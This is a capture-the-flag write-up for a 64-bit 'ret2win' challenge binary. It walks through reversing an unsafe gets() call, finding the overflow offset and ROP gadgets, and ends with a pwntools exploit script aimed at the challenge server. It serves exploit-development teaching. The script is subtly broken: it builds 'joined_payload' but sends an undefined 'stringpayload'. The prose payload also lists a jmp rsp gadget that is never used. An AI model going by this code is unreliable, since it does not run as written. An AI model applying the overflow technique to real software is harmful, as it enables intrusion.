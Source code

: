 
----------------------------------------
# 0〤丩ᐯ㇌尺𝓝丩㇄|$

------------------------------------------------------------------------------


# Challenge Description:
------------------------------------------------------------------------------
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

# Overview:
------------------------------------------------------------------------------
## File checks:

Running basic file checks on the binary:

!(Images/ret2win2.png)

We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

## Testing binary:

![[Images/ret2win1.png]]

When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

## Reversing the binary:

------------------------------------------------------------------------------
### main()
when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:

![[Images/main.png]]


We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:
### user_input()

![[Images/user_input.png]]

Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.


### Win()
and finally, the win function (or supersecrettoplevelfunction) as they're calling it:

![[Images/win.png]]

The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:

![[Images/params.png]]

![[Images/param2.png]]


we can make out the parameters to be __cafebabe & c0debabe__

and finally we can construct our plan of attack.


# Plan of attack:
------------------------------------------------------------------------------

1. We will have to find the offset of the RIP
3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)
4. We will then pass our parameters
5. Pass in our win_function address
6. And finally, we will wait for the magic to happen!


# Exploitation:
------------------------------------------------------------------------------

## Debugging with GDB-GEF:

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.

![[Images/gef.png]]


Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that. 

![[Images/search.png]]


Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

Alright, everything should be set from now, we send a payload that consists of the following:

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

So let's start:

## Finding ROP gadgets:

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

First, we'll need a pop rdi instruction and we can find it using the following command:

![[Images/pop_rdi.png]]

And then a pop rsi:

![[Images/pop_rsi.png]]

But wait... there's no pop rsi, only pop rsi; pop r15?

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

## Finding the win function address:

And finally, using `readelf`, we can find the address of the win function which we will pass.

![[Images/readelf.png]]


And now that we have everything we need, the final form of the payload will be: 
Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address


# The script:
------------------------------------------------------------------------------

```python


from pwn import *
elf=ELF('./ret2win')
session= remote('ret2win.challenges.ctf.ritsec.club', 1337)
win_function=p64(elf.symbols['supersecrettoplevelfunction'])
pop_rdi=p64(0x00000000004012b3)
param1=p64(0xcafebabe)
pop_rsi=p64(0x00000000004012b1)
param2=p64(0xc0debabe)
junk=p64(0x00)

padding=b'A'*40

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

print(stringpayload)
with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY
	test.write(stringpayload)
#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY
# gdb.attach(p,"""
# 	b main
# 	r < payload
# 	c""")
session.sendline(stringpayload)
session.interactive()


```

------------------------------------------------------------------------------
